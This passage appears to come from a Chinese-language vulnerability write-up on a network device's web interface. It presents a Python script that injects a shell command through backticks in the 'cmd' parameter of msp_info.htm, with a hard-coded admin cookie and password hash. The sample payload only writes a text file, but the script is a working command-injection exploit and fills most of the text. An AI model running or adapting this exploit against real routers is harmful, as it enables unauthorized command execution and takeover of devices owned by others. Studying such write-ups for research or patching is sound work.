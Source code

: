
我们发现我们的命令是成功的。

### 2.2.2、写exp
![](vx_images/270363803334092.png)

源码：
```
import requests

burp0_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaa>c.txt`"
burp0_cookies = {"wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)


```

![](vx_images/555905053699341.png)

